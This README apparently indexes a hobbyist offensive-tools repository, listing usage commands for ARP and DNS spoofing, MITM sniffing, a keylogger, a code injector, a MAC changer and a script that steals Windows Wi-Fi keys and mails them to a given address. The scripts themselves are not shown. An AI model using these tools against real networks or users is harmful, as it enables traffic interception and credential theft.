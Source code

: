 # hoockor

## Requirements:
DONT FORGET TO RUN  _`pip install -r requirements.txt`_

## [ARP Spoofing](./V1Z-HC5/ARP_Spoof)

`python3 arp_spoofing -t <targetIP>`

    optional parameter is -g <gatewayIP>

## [ARP Spoof Detector](./V1Z-HC5/ARP_Spoof_Detector/)

`python3 arp_spoof_detector.py -i <interface>`

## [XSS Vuln Scanner](./V1Z-HC5/Vuln-Scanner/)

## [Lazagne to steal wifi keys](./Steal-Wifi-Keys-windows)
`python wifi_keys.py <From Mail> <password> <To Mail>`

## [MITM Packet Sniffing](./V1Z-HC5/Packet_Sniff/)
replace the "NETWORK_INTERFACE" word with the interface that you are using

`python3 Sniffing.py`

## [Scan for devices in network](./V1Z-HC5/Net_Scanner/)
`python3 netScanner.py -t <Network IP>`

## [Change MAC address](./V1Z-HC5/MAC_Changer)
`python3 mac.py -i <interface> -m <newMacAddress>`

## [Keylogger](./V1Z-HC5/Keylogger)

## [DNS_Spoofing](./V1Z-HC5/DNS_Spoof/)
`python3 dns_spoofing.py -l <Y/N> -s <site url> -i <ip>`

## [CodeInjector](./V1Z-HC5/Code_Injector)
`python3 code_injector.py -l <Y/N> -p <File path>`